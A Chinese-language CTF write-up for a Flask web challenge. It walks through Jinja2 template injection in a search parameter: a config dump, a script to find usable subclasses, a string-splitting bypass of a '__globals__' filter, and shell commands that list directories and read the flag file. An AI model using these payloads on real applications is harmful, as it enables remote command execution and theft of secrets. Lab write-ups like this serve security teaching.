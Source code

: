 ![](<./img/Pasted image 20221227093348.png>)

---
首页长这样

![](<./img/Pasted image 20221227093716.png>)

![](<./img/Pasted image 20221227093744.png>)

尝试传一些奇怪的东西
```python
/?search={{7*7}}
```

```
You searched for:
49
```

存在`SSTI`

```python
/?search={{config}}
```

```
<Config {'JSON_AS_ASCII': True, 'USE_X_SENDFILE': False, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_NAME': 'session', 'MAX_COOKIE_SIZE': 4093, 'SESSION_COOKIE_SAMESITE': None, 'PROPAGATE_EXCEPTIONS': None, 'ENV': 'production', 'DEBUG': False, 'SECRET_KEY': 'CCC{f4k3_Fl49_:v} CCC{the_flag_is_this_dir}', 'EXPLAIN_TEMPLATE_LOADING': False, 'MAX_CONTENT_LENGTH': None, 'APPLICATION_ROOT': '/', 'SERVER_NAME': None, 'PREFERRED_URL_SCHEME': 'http', 'JSONIFY_PRETTYPRINT_REGULAR': False, 'TESTING': False, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'TEMPLATES_AUTO_RELOAD': None, 'TRAP_BAD_REQUEST_ERRORS': None, 'JSON_SORT_KEYS': True, 'JSONIFY_MIMETYPE': 'application/json', 'SESSION_COOKIE_HTTPONLY': True, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'TRAP_HTTP_EXCEPTIONS': False}>
```

`url_for`用不了QAQ

使用脚本找找`__builtins__`

```python
num = 0
for item in ''.__class__.__mro__[2].__subclasses__():
    try:
         if '__builtins__' in item.__init__.__globals__:
             print num,item
         num+=1
    except:
        num+=1

```

```
58 <class 'warnings.WarningMessage'>
59 <class 'warnings.catch_warnings'>
60 <class '_weakrefset._IterationGuard'>
61 <class '_weakrefset.WeakSet'>
71 <class 'site._Printer'>
76 <class 'site.Quitter'>
77 <class 'codecs.IncrementalEncoder'>
78 <class 'codecs.IncrementalDecoder'>
```

这题给`__global__`过滤了太狠毒了QAQ，服务端`__init__`可以直接通过索引访问元素，本地运行会报错==

```python
/?search={{[].__class__.__base__.__subclasses__()[58].__init__['__glo'+'bals__']['__builtins__']['__import__']('commands').getoutput('ls')}}
```

```
You searched for:
bin boot dev etc flasklight home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var
```

```python
/?search={{[].__class__.__base__.__subclasses__()[58].__init__['__glo'+'bals__']['__builtins__']['__import__']('commands').getoutput('ls flasklight')}}
```

```
You searched for:
app.py coomme_geeeett_youur_flek
```

```python
/?search={{[].__class__.__base__.__subclasses__()[58].__init__['__glo'+'bals__']['__builtins__']['__import__']('commands').getoutput('cat flasklight/coomme_geeeett_youur_flek')}}
```

```
You searched for:
flag{b1e72009-df67-40c1-b2ae-c24c0a679158}
```

#Web #python #flask #SSTI #RCE 